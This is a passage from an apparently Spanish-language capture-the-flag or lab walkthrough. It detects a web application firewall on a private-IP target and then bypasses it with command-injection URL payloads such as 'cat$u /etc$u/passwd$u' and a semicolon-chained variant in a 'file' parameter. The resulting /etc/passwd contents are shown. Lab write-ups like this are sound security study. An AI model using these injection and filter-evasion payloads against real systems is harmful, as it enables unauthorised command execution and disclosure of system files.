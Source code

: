 ```
[+] Generic Detection results:
[*] The site http://192.168.5.187 seems to be behind a WAF or some sort of security solution
[~] Reason: The response was different when the request wasn't made from a browser.
Normal response code is "200", while the response code to a modified request is "403"
[~] Number of requests: 4
```

Vemos que tiene un `FireWall` protegiendo por detras estas inyecciones de codigos, por lo que haremos lo siguiente...

URL = https://www.secjuice.com/web-application-firewall-waf-evasion/

En ese articulo te viene la clave para `Bypassear` estas cosas...

```
URL = http://<IP>/test.php?file=cat$u%20/etc$u/passwd$u
```

Si hacemos eso podremos ver el `passwd`...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
_apt:x:106:65534::/nonexistent:/bin/false
mysql:x:107:110:MySQL Server,,,:/nonexistent:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
```

Tambien se puede hacer de esta manera...

```
URL = http://<IP>/test.php?file=www.google.com;cat$u+/etc$u/passwd$u
```
